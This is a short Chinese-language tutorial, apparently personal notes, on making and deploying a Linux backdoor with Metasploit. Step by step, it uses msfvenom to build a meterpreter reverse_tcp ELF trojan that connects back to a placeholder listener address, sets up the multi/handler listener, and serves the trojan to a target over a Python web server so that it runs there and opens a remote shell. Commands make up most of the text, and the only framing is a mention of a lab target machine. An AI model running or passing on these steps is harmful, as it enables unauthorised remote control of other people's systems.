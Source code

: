 # 一、环境准备

1. MSF-Metasploit Framework
2. 一台靶机

# 二、木马生成

1. 生成一个Linux后门
2. msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST={监控IP} LPORT={监控端口} -f elf > shell.elf!
![[1643108165465.png]]

# 三、配置监控

1. 启动msf   终端内输入：msfconsole 启动msf

   ![[1643108186343.png]]

2. 载入监控模块  msf中输入：  use exploit/multi/handler

3. 加载payload  msf终端中输入：set payload linux/x64/meterpreter/reverse_tcp

4. 配置payload  msf终端中输入：show options

   ![[1643108202630.png]]

5. 配置payload监控IP msf终端中输入： set  lhost  {监控IP}

6. 配置payload监控端口  msf终端中输入：set lport  {监控端口} （注意这里要和木马配置时使用的端口相同&如果使用内网穿透服务填写转发后的端口）

7. 检查payload配置  msf终端中输入：show options

8. 执行监控  msf终端中输入： run

   ![[1643108218621.png]]

# 四、攻击利用

1. 将木马上传到靶机 

   通过python创建一个简单web服务

    python2 -m SimpleHTTPServer 80

2. 在靶机上执行木马 

3. 完成攻击利用

   ![[1643108263211.png]]













